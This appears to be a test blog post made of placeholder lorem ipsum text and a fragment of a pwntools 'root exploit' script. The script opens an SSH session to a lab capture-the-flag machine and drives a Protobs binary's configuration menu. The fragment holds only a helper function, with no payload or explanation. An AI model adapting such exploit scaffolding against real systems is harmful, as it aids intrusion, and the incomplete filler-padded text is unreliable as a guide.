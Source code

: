 ```yaml
---
title:  "Another test"
description: An approach to reversing.
date:   2020-05-23 21:03:36 +0530
author: Cornelius Fiddlebone
tags: [boxes]
categories: Boxes
toc: true
toc_label: "My Table of Contents"
toc_icon: "cog"
classes: wide
---
```


TEST
Lorem ipsum dolor sit amet, consetetur sadipscing elitr, sed diam nonumy eirmod tempor invidunt ut labore et dolore magna aliquyam erat, sed diam voluptua. At vero eos et accusam et justo duo dolores et ea rebum. Stet clita kasd gubergren, no sea takimata sanctus est Lorem ipsum dolor sit amet. Lorem ipsum dolor sit amet, consetetur sadipscing elitr, sed diam nonumy eirmod tempor invidunt ut labore et dolore magna aliquyam erat, sed diam voluptua. At vero eos et accusam et justo duo dolores et ea rebum. Stet clita kasd gubergren, no sea takimata sanctus est Lorem ipsum dolor sit amet.

# Root exploit

```python
#!/usr/bin/env python3

from pwn import *

libc = ELF('./libc.so.6')

#p = process('./Protobs')
sshConn = ssh(host='10.10.10.170', user='observer', keyfile='id_rsa')
p = sshConn.process('/opt/Configuration_Utility/Protobs')
def add(size=0, content=b'', config=b''):
    p.sendlineafter('protobs@player2:~$ ', str(2))
    # name through controller (6 items)
    p.sendlineafter('[ Game                ]: ', config)
    p.sendlineafter('[ Contrast            ]: ', '')
    p.sendlineafter('[ Gamma               ]: ', '')
    p.sendlineafter('[ Resolution X-Axis   ]: ', '')
    p.sendlineafter('[ Resolution Y-Axis   ]: ', '')
    p.sendlineafter('[ Controller          ]: ', '')
    p.sendlineafter('[ Size of Description ]: ', str(int(str(size), 0)))
    if size != 0:
        p.sendlineafter('[ Description         ]: ', content)
    return
```

Lorem ipsum dolor sit amet, consetetur sadipscing elitr, sed diam nonumy eirmod tempor invidunt ut labore et dolore magna aliquyam erat, sed diam voluptua. At vero eos et accusam et justo duo dolores et ea rebum. Stet clita kasd gubergren, no sea takimata sanctus est Lorem ipsum dolor sit amet. Lorem ipsum dolor sit amet, consetetur sadipscing elitr, sed diam nonumy eirmod tempor invidunt ut labore et dolore magna aliquyam erat, sed diam voluptua. At vero eos et accusam et justo duo dolores et ea rebum. Stet clita kasd gubergren, no sea takimata sanctus est Lorem ipsum dolor sit amet.

Lorem ipsum dolor sit amet, consetetur sadipscing elitr, sed diam nonumy eirmod tempor invidunt ut labore et dolore magna aliquyam erat, sed diam voluptua. At vero eos et accusam et justo duo dolores et ea rebum. Stet clita kasd gubergren, no sea takimata sanctus est Lorem ipsum dolor sit amet. Lorem ipsum dolor sit amet, consetetur sadipscing elitr, sed diam nonumy eirmod tempor invidunt ut labore et dolore magna aliquyam erat, sed diam voluptua. At vero eos et accusam et justo duo dolores et ea rebum. Stet clita kasd gubergren, no sea takimata sanctus est Lorem ipsum dolor sit amet.

Lorem ipsum dolor sit amet, consetetur sadipscing elitr, sed diam nonumy eirmod tempor invidunt ut labore et dolore magna aliquyam erat, sed diam voluptua. At vero eos et accusam et justo duo dolores et ea rebum. Stet clita kasd gubergren, no sea takimata sanctus est Lorem ipsum dolor sit amet. Lorem ipsum dolor sit amet, consetetur sadipscing elitr, sed diam nonumy eirmod tempor invidunt ut labore et dolore magna aliquyam erat, sed diam voluptua. At vero eos et accusam et justo duo dolores et ea rebum. Stet clita kasd gubergren, no sea takimata sanctus est Lorem ipsum dolor sit amet.
